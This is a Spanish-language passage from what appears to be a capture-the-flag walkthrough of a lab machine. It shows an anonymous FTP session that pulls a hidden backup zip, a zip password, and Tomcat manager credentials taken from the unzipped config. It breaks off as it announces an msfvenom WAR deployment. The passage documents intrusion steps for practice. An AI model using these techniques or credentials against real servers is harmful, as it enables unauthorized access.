 tenemos acceso como usuario anonymous


## FTP

~~~
> ftp 192.168.2.242
Connected to 192.168.2.242.
220 (vsFTPd 3.0.3)
Name (192.168.2.242:h1dr0): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Feb 03  2021 .
drwxr-xr-x    3 0        0            4096 Feb 03  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 30  2021 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jun 30  2021 .
drwxr-xr-x    3 0        0            4096 Feb 03  2021 ..
-rw-r--r--    1 0        0            1250 Feb 03  2021 .backup.zip
226 Directory send OK.
ftp> get .backup.zip
local: .backup.zip remote: .backup.zip
~~~

accedemos veremos una carpeta y dentro tenemos un archivo zip

lo descargamos y intentamos descomprimirlo pero nos pide un password que anteriormente decubrimos

passwword_zip = agua=H2O

una vez descomprimido encotramos un archivo critico de tomcat donde se guardan las credenciales de usuario

~~~
<user username="aquaMan" password="P4st3lM4n" roles="manager-gui,admin-gui"/>
~~~

## *Credenciales* 

aquaMan:P4st3lM4n --> tomcat

con estas credenciales accedemos al servicio tomcat


como veremos podemos hacer un deploy de un archivo war que con msfvenom crearemos.
